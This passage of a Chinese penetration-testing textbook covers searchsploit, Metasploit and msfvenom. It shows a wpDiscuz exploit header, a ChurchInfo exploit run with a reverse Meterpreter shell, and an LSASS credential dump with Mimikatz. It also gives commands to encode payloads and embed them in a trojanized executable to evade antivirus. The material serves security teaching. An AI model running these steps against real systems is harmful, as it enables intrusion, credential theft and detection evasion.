Exploit-DB 还提供了其他工具，例如 `searchsploit` 命令，这是一个命令行工具，可以从命令行查询 Exploit-DB。除此之外，我们可以自己检查漏洞利用代码，甚至可以直接从终端请求漏洞利用的镜像副本以供使用。例如，要搜索已识别的 wpDiscuz WordPress 插件中的潜在漏洞，我们可以使用下面的**图 6.2** 中的命令。


**图 6.2** 使用 searchsploit 查找已知的 wpDiscuz 漏洞利用。

这表明针对影响 wpDiscuz 7.0.4 版本的未认证漏洞，存在三个已知的漏洞利用。远程代码执行对系统的整体机密性、完整性和可用性具有毁灭性影响，当与未认证攻击相结合时，可能会造成重大麻烦。让我们尝试通过使用另一个 `searchsploit` 命令来窥探该漏洞利用，这次引用结果中给出的“路径”。我们将重点放在这个漏洞利用的 Python 版本上，其标签为 `php/webapps/49967.py`。运行下面的命令将检查该漏洞利用（将 `-x` 视为 examine），以便我们查看。

```bash
searchsploit -x php/webapps/49967.py
```

此命令会打开一个交互式文本窗口，我们可以在其中自行评估漏洞利用代码，以决定是否使用它。在粗略浏览代码并确定需要进一步调查后，我们可以按“q”键退出文本窗口。如需查看代码并在需要时添加修改，我们可以使用镜像（`-m` 开关）创建漏洞利用的本地副本。与之前的命令类似，下面的命令依赖于特定漏洞利用给出的路径。

```bash
searchsploit -m php/webapps/49967.py
```

```text
Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution
(Unauthenticated)
    URL: https://www.exploit-db.com/exploits/49967
    Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
File Type: Python script, Unicode text, UTF-8 text executable, with very
long lines (864)

Copied to: /home/chris/49967.py
```

请注意，该漏洞利用已被复制到当前工作目录，在本示例中即主目录。复制到我们的目录后，我们可以用 `vim` 或 `nano` 等工具打开它，继续审查代码。审查该漏洞利用代码可以发现，它分别通过 `-u` 和 `-p` 开关请求 URL 和路径。之后，它似乎在提交带有 PHP 载荷的漏洞利用之前收集环境信息。

```python
# Exploit Title: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
# Date: 2021/06/08
# Exploit Author: Fellipe oliveira
# Vendor Homepage: https://gvectors.com/
# Software Link: https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip
# Version: wpDiscuz 7.0.4
# Tested on: Debian9, Windows 7, Windows 10 (Wordpress 5.7.2)
# CVE : CVE-2020-24186
# Thanks for the great contribution to the code: Z3r0c00l (https://twitter.com/zeroc00l)

#!/bin/python3

import requests
import optparse
import re
import random
import time
import string
import json

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target host: http://192.168.1.81/blog/")
parser.add_option('-p', '--path', action="store", dest="path", help="Path to exploitation: /2021/06/blogpost")

options, args = parser.parse_args()

if not options.url or not options.path:
    print('[+] Specify an url target')
```

**图 6.3** 审查漏洞利用代码，以识别可能发生的活动以及预期结果。


**图 6.4** 使用 banner 启动 Metasploit。

## 选择漏洞利用模块

当 `msfconsole` 窗口出现后，我们可以使用 `search` 命令搜索特定漏洞利用。在此示例中，我们将搜索名为 ChurchInfo 的程序，以确定是否有可用模块。此实例中要运行的命令是 `search churchinfo`，它会返回一个模块。


**图 6.5** 搜索 ChurchInfo 显示有一个模块可用。

要使用通过搜索功能识别出的漏洞利用，我们可以复制并粘贴模块名称，并使用“`use`”命令将其选中，例如 `use exploit/multi/http/churchinfo_upload_exec`。正如 Metasploit 返回的信息中所指出的，我们也可以从搜索窗口中选择一个模块，并使用其编号来使用它——这比输入模块完整名称要快得多、简单得多。相反，我们可以只需在“`use`”命令中提供模块编号，例如 `use 0`，这会从搜索结果中选择编号为 0 的模块。

在查看此信息时，我们可以看到该模块需要对系统进行经过身份验证的访问。通过身份验证后，模块会在应用程序中创建一封草稿邮件，为电子邮件上传附件，而漏洞就在于服务器如何存储该附件。如需更详细的文档，运行 `info -d` 命令会以 markdown 格式打开该模块的适用文档。该文档包含如何安装应用程序、如何配置应用程序，以及如何证明该漏洞能够被该模块有效利用。


**图 6.8** 可通过 info -d 命令获取的详细 markdown 模块文档。

`msf6 exploit(multi/http/churchinfo_upload_exec) > show payloads`

兼容的载荷

| # | 名称 | 披露日期 | 排名 | 检查 | 描述 |
|---|------|-----------------|------|-------|-------------|
| 0 | `payload/generic/custom` | | 普通 | 否 | 自定义载荷 |
| 1 | `payload/generic/shell_bind_tcp` | | 普通 | 否 | 通用命令 Shell，内联 TCP 绑定 |
| 2 | `payload/generic/shell_reverse_tcp` | | 普通 | 否 | 通用命令 Shell，内联反向 TCP |
| 3 | `payload/generic/shell_internet` | | 普通 | 否 | 通用命令 Shell，反向 TCP 连接 |
| 4 | `payload/multi/meterpreter/reverse_http` | | 普通 | 否 | 与体系结构无关的 Meterpreter 阶段，反向 HTTP |
| 5 | `payload/multi/meterpreter/reverse_https` | | 普通 | 否 | 与体系结构无关的 Meterpreter 阶段，反向 HTTPS |
| 6 | `payload/php/bind_perl` | | 普通 | 否 | PHP 命令 Shell，通过 Perl 绑定 TCP |
| 7 | `payload/php/bind_php_ipv6` | | 普通 | 否 | PHP 命令 Shell，通过 PHP 绑定 TCP IPv6 |
| 8 | `payload/php/bind_php` | | 普通 | 否 | PHP 命令 Shell，通过 PHP 绑定 TCP |
| 9 | `payload/php/bind_php_ipv6` | | 普通 | 否 | PHP 命令 Shell，通过 php 绑定 TCP IPv6 |
| 10 | `payload/php/download_exec` | | 普通 | 否 | PHP 可执行文件下载并执行 |
| 11 | `payload/php/exec` | | 普通 | 否 | PHP 执行命令 |
| 12 | `payload/php/meterpreter/bind_tcp` | | 普通 | 否 | PHP Meterpreter，绑定 TCP 存根 |
| 13 | `payload/php/meterpreter/bind_tcp_ipv6` | | 普通 | 否 | PHP Meterpreter，绑定 TCP 存根 IPv6 |


| 14 | `payload/php/meterpreter/bind_tcp_uuid` | | 普通 | 否 | PHP Meterpreter，支持 UUID 的绑定 TCP 存根 IPv6 |

| 15 | `payload/php/meterpreter/bind_tcp_uuid` | | 普通 | 否 | PHP Meterpreter，支持 UUID 的绑定 TCP 存根 |

| 16 | `payload/php/meterpreter/reverse_tcp` | | 普通 | 否 | PHP Meterpreter，PHP 反向 TCP 存根 |

| 17 | `payload/php/meterpreter/reverse_tcp_uuid` | | 普通 | 否 | PHP Meterpreter，反向 TCP 存根 |

| 18 | `payload/php/reverse_perl` | | 普通 | 否 | PHP 命令 Shell，通过 Perl 反向 TCP 连接 |

| 19 | `payload/php/reverse_php` | | 普通 | 否 | PHP 命令 Shell，通过 PHP 反向 TCP |

**图 6.10** 使用“show payloads”命令列出漏洞利用的所有兼容载荷。

与选择漏洞利用类似，我们可以根据列表窗口中的编号选择载荷。要选择不同的载荷，使用的命令是 `set payload 11`，这将从上面发布的示例中选择 `payload/php/exec`。目前，我们仍将载荷设置为 Meterpreter，因为它具有灵活性和模块化性。

选择漏洞利用和载荷后，我们需要输入模块使用的选项。选项可能内置了默认值，我们需要确保为所有必需选项提供值。再次查看 `options` 命令，我们可以看到有少数必需选项，但大多数似乎已经有一些关联值。然而，有一个必需的值为未设置，即 `RHOSTS`，它用于选择远程主机（即易受攻击应用程序的目标）。要为选项设置值，请使用语法 `set <KEY> <VALUE>`，例如 `set rhosts 192.168.1.72`。这将在选项中设置该值，并将其用作模块的目标。请注意，使用 `setg` 命令（其中“g”代表全局）可以在当前 Metasploit 会话中跨所有模块设置此值。

```text
msf6 exploit(multi/http/churchinfo_upload_exec) > set rhosts 192.168.1.72

rhosts => 192.168.1.72

msf6 exploit(multi/http/churchinfo_upload_exec) > options
```

模块选项 (`exploit/multi/http/churchinfo_upload_exec`):

| 名称 | 当前设置 | 必需 | 描述 |
|------|-----------------|----------|-------------|
| `EMAIL_MSG` | Hello there! | 是 | Web 应用中的电子邮件消息 |
| `EMAIL_SUBJ` | Read this now! | 是 | Web 应用中的电子邮件主题 |
| `PASSWORD` | churchinfoadmin | 是 | 用于登录的密码 |
| `PROXIES` | | 否 | 格式为 type:host 的代理链 |
| `RHOSTS` | 192.168.1.72 | 是 | 目标主机，参见 https://... |
| `RPORT` | 80 | 是 | 目标端口（TCP） |
| `SSL` | false | 否 | 为出站连接协商 SSL/TLS |
| `TARGETURI` | /churchinfo/ | 是 | ChurchInfo 应用程序的位置 |
| `USERNAME` | admin | 是 | ChurchInfo 应用程序的用户名 |
| `VHOST` | | 否 | HTTP 服务器虚拟主机 |

**图 6.11** 在漏洞利用模块上设置 `RHOSTS` 键的值。

与设置漏洞利用模块的选项类似，我们可以使用相同的语法来更改载荷模块。为了使反向 TCP 载荷生效，我们将在我们的被利用的主机将连接攻击机以建立 Meterpreter 会话。此载荷要求我们使用被利用机器可访问的 IP 地址，并且端口可被连接。注意，我们也可以直接指定接口而不是本地 IP 地址，例如 `eth0`。

**载荷选项（`php/meterpreter/reverse_tcp`）：**

| 名称 | 当前设置 | 必需 | 描述 |
|---|---|---|---|
| `LHOST` | 192.168.1.240 | 是 | 监听地址（可指定接口） |
| `LPORT` | 4444 | 是 | 监听端口 |

**图 6.12** 用于管理反向 shell 协商方式的载荷选项。

## 运行利用

一旦配置好利用和载荷，我们可以用两个不同的命令运行利用。这两个命令是 `run` 和 `exploit`，它们在功能上是相同的命令。这会使用我们配置的选项运行利用模块，并通知我们模块利用过程是如何进行的。已知在 IP 192.168.1.72 上有一个易受攻击的 ChurchInfo 程序，我们可以运行利用程序看是否能获得访问权限。

```text
msf6 exploit(multi/http/churchinfo_upload_exec) > run
[*] Started reverse TCP handler on 192.168.1.240:4444
[*] Running automatic check ("set AutoCheck false to disable")
[+] The target is vulnerable. Target is running ChurchInfo 1.3.0.1
[-] Exploit aborted due to failure: unexpected-reply: 192.168.1.72:80 - Check if credentials are correct (response code: 200)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/churchinfo_upload_exec) >
```

**图 6.13** 初始利用尝试未成功。注意检查显示目标存在漏洞，但很可能我们对应用程序的凭据无效。

运行第一次利用尝试后，我们可以看到利用程序**未**成功。不要惊慌，我们要做的是阅读输出并确定正在发生什么活动。仔细关注输出，我们可以看到在自动漏洞检查之后，目标 Web 应用程序被列为 ChurchInfo，并且它正在运行该软件的易受攻击版本。进一步检查输出表明，我们应该检查凭据是否正确，并且模块选项中提供的凭据可能不正确。查看配置的选项显示 `USERNAME` 设置为 `admin`，`PASSWORD` 设置为 `churchinfoadmin`。

```text
msf6 exploit(multi/http/churchinfo_upload_exec) > show options

Module options (exploit/multi/http/churchinfo_upload_exec):

Name        Current Setting       Required  Description
----        ---------------       --------  -----------
EMAIL_MESG  Hello there!          yes       Email message in webapp
EMAIL_SUBJ  Read this now!        yes       Email subject in webapp
PASSWORD    churchinfoadmin       yes       Password to login with
PROXIES                           no        A proxy chain of format ...
RHOSTS      192.168.1.72          yes       The target host(s), see ...
RPORT       80                   yes       The target port (TCP)
SSL         false                 no        Negotiate SSL/TLS for out...
TARGETURI   /churchinfo/          yes       The location of the Church...
USERNAME    admin                 yes       Username for ChurchInfo a...
VHOST                             no        HTTP server virtual host
```

**图 6.14** 设置 `USERNAME` 和 `PASSWORD` 选项。


**图 6.18** 可搭配 Meterpreter 使用的一些其他命令。

Meterpreter 中的一些常见用途是使用与其他任何系统相同的 Linux 命令在远程主机的文件系统中移动。这些命令包括 `pwd`、`ls` 和 `cat`，它们允许我们查看系统内的文件。任何优秀的黑客都应该搜索敏感信息，例如密码、哈希值或 API 密钥，以便进一步利用。

我们可以随时使用 `shell` 命令直接进入被利用主机上的系统 shell。这会打开一个称为主机上的**通道**，允许我们使用主机本身的命令 shell，而不是通过 Meterpreter 进行协商。输入 `shell` 命令后，会创建新的进程和通道，从而允许我们运行系统命令。当我们不再希望位于命令通道中时，可以使用 `exit` 命令退出通道，或使用 `CTRL+Z` 键将其置于后台，屏幕上显示为 ^Z。置于后台允许我们返回 Meterpreter，同时保持该通道存活，以防我们想要再次返回。

```text
meterpreter > shell
Process 47514 created.
Channel 0 created.
whoami
www-data
pwd
/var/www/html/churchinfo/tmp_attach
^Z
Background channel 0? [y/N] y
meterpreter >
```

**图 6.19** 进入 shell 通道，运行 `whoami` 和 `pwd` 命令，然后使用 `CTRL+Z` 键将其置于后台。

要与置于后台的通道交互，我们需要使用 `channel -l`（小写“L”）命令列出所有可用通道。这会提供所有活动通道及其 ID 号的列表，用于与其交互。运行 `channel -i 0` 会重新建立 ID 为 0 的后台通道。

```text
meterpreter > channel -l

 Id  Class  Type
 --  -----  ----
 0   3      stdapi_process

meterpreter > channel -i 0
Interacting with channel 0...

hostname
churchinfo
```

**图 6.20** 列出可用通道并重新建立交互。

要在 Meterpreter 中加载其他模块，我们可以使用 `load` 命令。虽然 Meterpreter 的标准部署中有几个非常有用的模块，但通过直接将其他模块加载到正在运行的 Meterpreter 会话中，可以添加更多功能。请注意，本章其余部分将在 Windows 机器上使用 Meterpreter 来演示使用 Mimikatz 收集凭据。要查看有哪些模块可用，请在 Meterpreter 窗口中运行 `load -l`（小写“L”）。

```text
meterpreter > help load
Usage: load ext1 ext2 ext3 ...

Loads a meterpreter extension module or modules.

OPTIONS:

    -h  Help menu.
    -l  List all available extensions.

meterpreter > load -l
boofloader
espia
extapi
incognito
kiwi
lanattacks
peinjector
powershell
priv
python
sniffer
stdapi
unhook
winpmem
meterpreter >

Lowercase “L”
```

**图 6.21** 列出可加载到正在运行的 Meterpreter 进程中的模块。

在这个返回的模块列表中，我们可以看到许多不同名称的附加函数可供加载。要了解更多关于每个模块的信息，可参考 Metasploit 文档：https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html#meterpreter-bindings。其中最有用的模块之一是 `kiwi`，也称为 `mimikatz`。在 Meterpreter 中使用 `load kiwi` 将其添加到当前会话。请注意，在它被加载后

然而，当我们运行 `creds_all` 命令时，我们发现没有返回任何信息。还记得警告说我们在 64 位机器上运行 32 位吗？这可能意味着在尝试使用 32 位进程访问 64 位数据时发生了冲突。要解决此问题，我们可以尝试迁移到 64 位进程。

```text
meterpreter > creds_all
[*] Running as SYSTEM
[*] Retrieving all credentials

meterpreter >
```

**图 6.24** 尝试收集系统上所有可用凭据但没有任何结果。这是由于 32 位和 64 位冲突。

要访问并迁移到 64 位进程，我们需要运行 `ps` 命令来列出正在运行的进程。Meterpreter 支持此命令，允许我们查看哪些进程正在运行、它们是什么体系结构以及由谁拥有。

```text
meterpreter > ps

Process List
============
PID   PPID  Name             Arch  Session  User                         Path
0     0     [System Process]
4     0     System           x64   0
88     4     Registry         x64   0
300    4     smss.exe         x64   0
344   608   svchost.exe      x64   0      NT AUTHORITY\\SYSTEM          C:\\Windows\\System32\\svchost.exe
364   608   svchost.exe      x64   0      NT AUTHORITY\\LOCAL SERVICE   C:\\Windows\\System32\\svchost.exe
400   392   csrss.exe        x64   0
476   392   wininit.exe      x64   0
608   476   services.exe     x64   0
624   608   svchost.exe      x64   0      NT AUTHORITY\\SYSTEM          C:\\Windows\\System32\\svchost.exe
632   476   lsass.exe        x64   0      NT AUTHORITY\\SYSTEM          C:\\Windows\\System32\\lsass.exe
```

**图 6.25** 运行 Meterpreter `ps` 命令会显示（修剪过的）正在运行的进程列表。注意 `lsass.exe` 进程以 PID 632 和 x64 体系结构运行。

在 Windows 系统上尝试使用 Mimikatz/kiwi 时，`lsass.exe` 程序是最重要的目标程序。这是因为它是本地安全机构子系统服务（Local Security Authority Subsystem Service），对于 Microsoft 机器来说，是管理身份验证信息的关键系统服务。使用 Meterpreter 直接访问此进程可确保我们的 Mimikatz 用户能够访问尽可能多的信息。在 `ps` 列表的屏幕截图中，我们可以看到 `lsass.exe` 以 `NT\SYSTEM` 身份运行，进程 ID（PID）为 632。要迁移，我们只需运行 `migrate 632` 命令即可。

```text
meterpreter > migrate 632
[*] Migrating from 3160 to 632 ...
[*] Migration completed successfully.
```

**图 6.26** 将 Meterpreter 进程迁移到 PID 为 632 的 LSASS 进程。

迁移完成后，我们可以再次运行 `creds_all` 命令。现在它将返回系统中存储的所有凭据，如果我们幸运的话，其中还包括一些明文密码。


```text
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials

msv credentials
================

Username              Domain      NTLM
---------              ------      ----
Administrator          GOBLINS     bc007082d32777855e253fd4defe70ee
DC01$                  GOBLINS     df8190050bd871b350dfec14d2df27
DC01$                  GOBLINS     d0791f98b23a1ebfd43a74617dabdb64

wdigest credentials
===================

Username              Domain      Password
--------              ------      --------
(null)                (null)      (null)
Administrator          GOBLINS     (null)
DC01$                  GOBLINS     (null)

kerberos credentials
====================

Username              Domain              Password
--------              ------              --------
(null)                (null)              (null)
Administrator          GOBLINS.LOCAL       (null)
DC01$                  goblins.local       08 73 ee fe 61 3e ce de be
```

**图 6.27** 在迁移到 `lsass.exe` 进程后运行 `creds_all` 命令。

此时，我们已经能够访问系统中其他账户的 NTLM 哈希。这些 NTLM 哈希可以被破解以获取明文密码，甚至可用于哈希传递（Pass-the-Hash）攻击，即直接使用 NTLM 哈希本身进行访问，而无需破解明文密码。

## 分阶段载荷与无阶段载荷

当选择 Meterpreter 漏洞利用时，用户可以在分阶段载荷与无阶段载荷之间进行选择。区别在于整个 Meterpreter 载荷的交付方式。分阶段载荷会产生一个非常小的初始载荷，该载荷用于回连攻击者，并传递 Meterpreter 载荷的后续阶段，直到完整的 Meterpreter 运行起来。⁴ 无阶段则意味着整个 Meterpreter 载荷作为一个载荷阶段进行交付，并以完整的 Meterpreter 连接直接回连攻击者。

选择分阶段还是无阶段载荷，取决于你在攻击过程中试图完成的活动类型。同样值得注意的是，无阶段方式在网络中产生的变量更少，有助于故障排查。然而，无阶段攻击产生的较大载荷也可能向目标暴露我们打算完成的一切操作。另一方面，分阶段载荷则表现为目标会联系我们的服务器以获取并执行额外的载荷。

要选择分阶段或无阶段载荷，请注意载荷的命名方案。Metasploit 文档中有一些很好的材料介绍了它们之间的区别。请注意，无阶段载荷（即在漏洞利用中直接发送完整 Meterpreter 的载荷）的命名方案为 `meterpreter_{{name}}`，而分阶段载荷使用 `meterpreter/{{name}}`。这是两者之间一个细微但重要的区别。

**表 6.1**

**分阶段与无阶段 Meterpreter 载荷类型**

| 载荷 | 分阶段 | 无阶段 |
|---|---|---|
| 反向 TCP | `windows/meterpreter/reverse_tcp` | `windows/meterpreter_reverse_tcp` |
| 反向 HTTPS | `windows/meterpreter/reverse_https` | `windows/meterpreter_reverse_https` |
| 绑定 TCP | `windows/meterpreter/bind_tcp` | `windows/meterpreter_bind_tcp` |
| 反向 TCP IPv6 | `windows/meterpreter/reverse_ipv6_tcp` | `windows/meterpreter_reverse_ipv6_tcp` |

请注意，`reverse_tcp` 和 `reverse_http` stager 会在没有任何加密的情况下下载 `metsrv`，因此 DLL 的内容对线上任何监听者都是可见的。⁵

载荷 UUID 用于帮助追踪载荷的来源，并确定其是否用于当前攻击行动。这些 UUID 是在使用 `msfvenom` 生成载荷时创建的——载荷生成将在下文中更详细地介绍。这还确保我们在互联网上开放以捕获反向 shell 的 Meterpreter 监听器会忽略未设置正确 UUID 的连接。

## Msfvenom

Metasploit 还附带了一些可用于获取访问权限的额外工具。武器库中最有效的工具之一是 `msfvenom`，它可用于在预打包的漏洞利用中生成载荷。⁶ 我们可以提供载荷选择，例如要在目标机器上运行的分阶段或无阶段 Meterpreter。在 Msfvenom 中，我们可以选择载荷将打包到的漏洞利用类型，例如 PowerShell 脚本、Bash 脚本、Windows 可执行文件或 ELF 格式。

与其他任何程序一样，要使用 `msfvenom`，我们只需请求帮助即可。这可以通过 `msfvenom -h` 命令来实现，该命令会列出该命令所有可用的帮助信息。此外，Metasploit 文档编写得也很好，可以在 [https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) 查看使用 Msfvenom 工具的多种不同方式。

要指定载荷，我们将使用 `-p` 参数在漏洞利用中提供载荷。如果你记不住自己喜欢使用的每个载荷（这在我身上很常见），可以直接从 Msfvenom 工具中列出载荷。我们可以使用 `msfvenom -l payloads` 列出载荷，命令会向我们提供可用载荷列表。

```text
(kali@kali)~ 
$ msfvenom -l payloads
Framework Payloads (951 total) [--payload <value>]
Name
----
aix/ppc/shell_bind_tcp
aix/ppc/shell_find_port
aix/ppc/shell_interact
aix/ppc/shell_reverse_tcp
android/meterpreter/reverse_http
android/meterpreter/reverse_https
android/meterpreter/reverse_tcp
android/meterpreter_reverse_http
android/meterpreter_reverse_https
android/meterpreter_reverse_tcp
android/shell/reverse_http
android/shell/reverse_https
android/shell/reverse_tcp
apple_ios/aarch64/meterpreter_reverse_http
```

**图 6.28** 使用 `msfvenom` 列出可用载荷。

请注意，该输出中列出了 951 个载荷，需要阅读和分析的输出相当多。为了快速找到与我们要调查的目标匹配的载荷，我们可以使用 `grep` 命令缩小输出范围。例如，要搜索为 Windows 机器构建的载荷，可以使用命令 `msfvenom -l payloads | grep -i windows`。

```text
(kali@kali)~ 
$ msfvenom -l payloads | grep -i windows
cmd/windows/adduser
cmd/windows/bind_lua
cmd/windows/bind_perl
cmd/windows/bind_perl_ipv6
cmd/windows/bind_ruby
cmd/windows/download_eval_vbs
cmd/windows/download_exec_vbs
cmd/windows/generic
cmd/windows/jjs_reverse_tcp
cmd/windows/powershell/adduser
cmd/windows/powershell/custom/bind_hidden_ipknock_tcp
```

**图 6.29** 将 `msfvenom` 中的载荷缩小到仅 Windows。

为了进一步细化搜索，我们可以继续使用额外的 `grep` 命令来查找诸如 Meterpreter 载荷之类的内容。这样，我们的命令就类似于 `msfvenom -l payloads | grep -i windows | grep -i meterpreter`。这会将结果缩小到与 Meterpreter 相关的 Windows 载荷。

为了进一步增强我们的漏洞利用，我们可以使用 Metasploit 编码器来尝试进一步混淆载荷。由于 Metasploit 是开源且广泛使用的应用程序，Windows Defender 和其他端点保护系统已经能够基于已知签名快速识别漏洞利用。使用编码器会改变载荷及其在漏洞利用期间存储和访问的方式，这有助于尝试混淆载荷以规避检测。

要使用编码器，我们需要先列出可用的编码器，以了解我们正在处理的内容。与载荷和格式一样，我们可以使用 `msfvenom -l encoders` 列出编码器。有许多不同类型的编码可供使用，我们需要确保所使用的编码与要交付的载荷类型匹配。

```text
(kali@kali)-[~]
$ msfvenom -l encoders
```

| 名称 | 等级 | 描述 |
|---|---|---|
| `cmd/brace` | 低 | Bash 花括号展开命令编码器 |
| `cmd/echo` | 良好 | Echo 命令编码器 |
| `cmd/generic_sh` | 手动 | 通用 Shell 变量替换命令编码器 |
| `cmd/ifs` | 低 | Bourne `${IFS}` 替换命令编码器 |
| `cmd/perl` | 普通 | Perl 命令编码器 |
| `cmd/powershell_base64` | 优秀 | PowerShell Base64 命令编码器 |
| `cmd/printf_ph_pmq` | 手动 | 通过 PHP magic_quotes 工具命令的 `printf(1)` 编码器 |
| `generic/eicar` | 手动 | EICAR 编码器 |
| `generic/none` | 普通 | “none”编码器 |
| `mipsbe/byte_xori` | 普通 | 字节 XORi 编码器 |
| `mipsbe/longxor` | 普通 | XOR 编码器 |
| `mipsle/byte_xori` | 普通 | 字节 XORi 编码器 |
| `mipsle/longxor` | 普通 | XOR 编码器 |
| `php/base64` | 很好 | PHP Base64 编码器 |
| `ppc/longxor` | 普通 | PPC LongXOR 编码器 |
| `ppc/longxor_tag` | 普通 | PPC LongXOR 编码器 |
| `ruby/base64` | 很好 | Ruby Base64 编码器 |
| `sparc/longxor_tag` | 普通 | SPARC DWORD XOR 编码器 |
| `x64/xor` | 普通 | XOR 编码器 |
| `x64/xor_context` | 普通 | 基于主机名的上下文密钥载荷编码器 |
| `x64/xor_dynamic` | 普通 | 动态密钥 XOR 编码器 |
| `x64/zutto_dekiru` | 手动 | Zutto Dekiru |
| `x86/add_sub` | 手动 | 加/减（Add/Sub）编码器 |
| `x86/alpha_mixed` | 低 | Alpha2 字母数字混合大小写编码器 |
| `x86/alpha_upper` | 低 | Alpha2 字母数字大写编码器 |
| `x86/avoid_underscore_tolower` | 手动 | 避免下划线/转小写 |
| `x86/avoid_utf8_tolower` | 手动 | 避免 UTF8/转小写 |
| `x86/blxor` | 手动 | BLxor——一个基于块的变形 XOR 编码器 |
| `x86/bmp_polyglot` | 手动 | BMP 多语言（Polyglot）编码器 |
| `x86/call4_dword_xor` | 普通 | Call+4 Dword XOR 编码器 |
| `x86/context_cpuid` | 手动 | 基于 `CPUID` 的上下文密钥载荷编码器 |
| `x86/context_stat` | 手动 | 基于 `stat(2)` 的上下文密钥载荷编码器 |
| `x86/context_time` | 手动 | 基于 `time(2)` 的上下文密钥载荷编码器 |
| `x86/countdown` | 普通 | 单字节 XOR 倒计数编码器 |
| `x86/fnstenv_mov` | 普通 | 可变长度 Fnstenv/mov Dword XOR 编码器 |
| `x86/jmp_call_additive` | 普通 | Jump/Call XOR 加法反馈编码器 |
| `x86/nonalpha` | 低 | 非字母编码器 |
| `x86/nonupper` | 低 | 非大写编码器 |
| `x86/opt_sub` | 手动 | 减编码器（优化） |
| `x86/service` | 手动 | 注册服务 |

**图 6.32** 使用 `msfvenom` 列出各种可用的编码类型。

使用该程序时，可以通过 `-i` 参数进行额外的编码轮次。根据文档，我们可以选择一个载荷并多次使用它，以尝试获得额外的好处。但请注意，文档也指出编码并非真正的反病毒规避机制。以下是一个多次运行编码器的示例：

```text
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

除此之外，我们还可以提供自定义模板可执行文件，供 `msfvenom` 感染。如果我们知道目标使用自定义可执行文件，或某种我们可以拿到手的其他关键程序，这种方法就会很有效。要使用不同的模板文件，我们可以使用 `-x` 标志并提供将要使用的可执行文件。Metasploit 还指出，当将自定义的 64 位模板与 64 位载荷一起使用时，应使用 `exe-only` 格式而不是 `exe` 格式。下面是一个示例：

```bash
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

## 防御视角

从防御者的角度来看，理解攻击者可以利用的各种漏洞利用方式并构造载荷以获取访问权限至关重要。通过了解如何执行此项活动，防御者可以测试其系统，以确保他们能够充分防御这些攻击。随着攻击者发布新工具并发现新的绕过技术，防御者便有了相应的工具集，可以测试其环境可能如何响应。

正如第 7 章所讨论的，有一个名为 Atomic Red Team 的项目，它利用测试单个 MITRE ATT&CK ID。Atomic Red Team 背后的理念是简化识别既定安全控制在攻击发生时是否按预期运行的过程。同样，如果我们持续以攻击者的方式测试系统，我们就能更好地了解如何检测和预防它们。

## 总结

学习如何使用和检测漏洞利用工具，对渗透测试和紫队协作大有裨益。有志于从事网络安全工作的专业人士应该花时间学习如何有效使用这些工具并保护他们的系统。

## 注释

1. https://www.exploit-db.com/
2. https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
3. https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter.html
4. https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-stageless-mode.html
5. https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/debugging-dead-meterpreter-sessions.html#not-so-quick-things-to-check
6. https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html


- `https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html#how-to-encode-a-payload`

# 7 权限提升与持久化

## 引言

获得系统的初始访问权限仅仅是个开始。一旦实现，恶意行为者会继续进行侦察，以收集有关系统、本地活动、用户信息以及关键信息可能存储位置的信息。获得管理员或 `root` 级别的访问权限通常是攻击者的最高目标，但这当然不是实现权限提升的唯一途径。请记住，`访问最关键的数据`是组织最优先考虑的事项——破坏这些数据的机密性或完整性将产生最大的影响。这意味着什么？简单来说，根据我们的目标，可能不需要直接提升到管理员凭据，而是横向移动到具有关键数据访问权限的账户。

要在系统内有效地进行横向移动和权限提升，我们必须对系统的设计运作方式有扎实的基础理解。许多使用的提升路径涉及利用一种或多种不同类型的合法操作系统功能。如果对这些核心功能的运作方式或原因缺乏深入了解，我们将严重限制进一步访问的能力和容量。

在系统上建立立足点后，我们必须从了解主机的本地环境开始。这是什么类型的系统？已建立的补丁级别是什么？还有其他本地用户吗？有任何人登录吗？所有这些问题以及更多问题都有助于我们理解系统的设计方式及其实现方式。

除了我们已进入的系统和网络之外，组织是如何运作的？组织的战略目标是什么，他们部署了哪些类型的保护措施来防御这些目标？关键数据是存储在本地某处，还是以某种方式汇集到云端？这些问题及其他许多问题，对于我们如何在系统内移动并在网络中横向移动至关重要。

最后，权限提升要做到恰当、有效且高效是困难的。然而，就像其他一切事情一样，我们做得越多、练习得越多，就会越有效。利用 HackTheBox、TryHackMe 和 VulnHub 等训练平台，我们可以安全可靠地练习我们的技术。

## 目标

我们的直接目标是获得系统上的 `root` 或管理员账户访问权限，然后在 `Active Directory (AD)` 环境中获得域管理员权限。我们可能通过多种方式实现这一目标，这些方式大多围绕寻找可利用的易受攻击的提权向量。侦察也是权限提升的关键部分，因为发现潜在提升路径并非易事。然而，如果我们了解系统类型、账户类型以及与我们发现相关的潜在风险，我们或许能够迅速提升到这些高价值账户。

对于基于 `Linux` 的系统，最高特权级别是 `root 账户`。该 `root` 账户对系统拥有完全控制权，可用于访问主机上的所有文件。由于 `root` 拥有的控制级别，大多数基于 `Linux` 的操作系统建议使用普通用户账户而不是 `root` 账户进行日常任务。要以 `root` 身份执行任务，可以从用户账户使用 `sudo` 命令。用户必须在 `sudoers` 文件中被标记，才能以 `root` 身份执行命令。

对于基于 `Windows` 的系统，有两种不同级别的管理访问权限。第一种是众所周知的 `Administrator`，用户账户对设备的配置和操作拥有完全控制权。然而，`Windows` 中还有一种额外的 `SYSTEM` 级别访问权限

- `3. UID。` 这是账户的用户 ID。

- `4. GID。` 这是账户的主组 ID，分配给特定账户的所有其他组可以在 `/etc/group` 文件中找到。

